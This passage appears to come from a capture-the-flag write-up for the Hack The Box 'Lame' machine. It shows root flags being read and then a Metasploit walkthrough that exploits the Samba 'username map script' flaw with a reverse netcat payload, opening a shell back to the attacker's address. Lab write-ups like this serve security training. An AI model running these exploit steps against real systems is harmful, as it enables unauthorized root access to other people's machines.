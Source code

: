```shell
cat user.txt
69454a937d94f5f*****************
root@lame:/home/makis# cd /root
cd /root
root@lame:/root# cat root.txt
cat root.txt
92caac3be140ef4*****************
root@lame:/root# exit
```
Using any of the above methods we get a shell as root from where we can grab our flags.

### Metasploit

Since we have already exploited `samba 3.0` manually, let's also exploit it with Metasploit:

```shell
msf5 > search usermap

Matching Modules
================

   #  Name                                Disclosure Date  Rank       Check  Description
   -  ----                                ---------------  ----       -----  -----------
   0  exploit/multi/samba/usermap_script  2007-05-14       excellent  No     Samba "username map script" Command Execution


msf5 > use exploit/multi/samba/usermap_script
[*] No payload configured, defaulting to cmd/unix/reverse_netcat
msf5 exploit(multi/samba/usermap_script) > show options

Module options (exploit/multi/samba/usermap_script):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   139              yes       The target port (TCP)


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic


msf5 exploit(multi/samba/usermap_script) > set RHOSTS 10.10.10.3
RHOSTS => 10.10.10.3
msf5 exploit(multi/samba/usermap_script) > set LHOST tun0
LHOST => tun0
msf5 exploit(multi/samba/usermap_script) > exploit

[*] Started reverse TCP handler on 10.10.14.17:4444
[*] Command shell session 1 opened (10.10.14.17:4444 -> 10.10.10.3:53196) at 2020-09-14 17:36:33 +0530
```